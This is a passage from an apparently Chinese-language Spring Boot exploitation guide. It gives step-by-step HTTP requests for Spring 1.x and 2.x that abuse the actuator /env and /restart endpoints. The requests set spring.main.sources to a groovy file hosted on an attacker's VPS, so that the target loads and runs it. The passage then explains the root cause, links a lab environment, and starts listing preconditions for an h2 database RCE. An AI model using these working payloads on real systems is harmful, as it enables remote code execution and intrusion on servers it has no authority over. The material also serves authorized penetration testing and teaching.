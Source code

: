 **步骤二：设置 spring.main.sources 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://your-vps-ip/example.groovy
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.main.sources","value":"http://your-vps-ip/example.groovy"}
```

**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. 目标机器可以通过 spring.main.sources 属性来设置创建 ApplicationContext 的额外源的 URL 地址
2. restart 重启应用后，程序会请求设置的 URL 地址
3. `spring-boot` 组件中的 `org.springframework.boot.BeanDefinitionLoader.java` 文件代码逻辑中会判断 url 是否以 `.groovy` 结尾
4. 如果 url 以 `.groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

**漏洞环境：**

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```

#### 0x0C：restart spring.datasource.data h2 database RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* 环境中需要存在 `h2database`、`spring-boot-starter-data-jpa` 相关依赖
* ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
* ⚠️ HTTP 服务器如果返回含有畸形 h2 sql 语法内容的文件，会导致程序异常退出
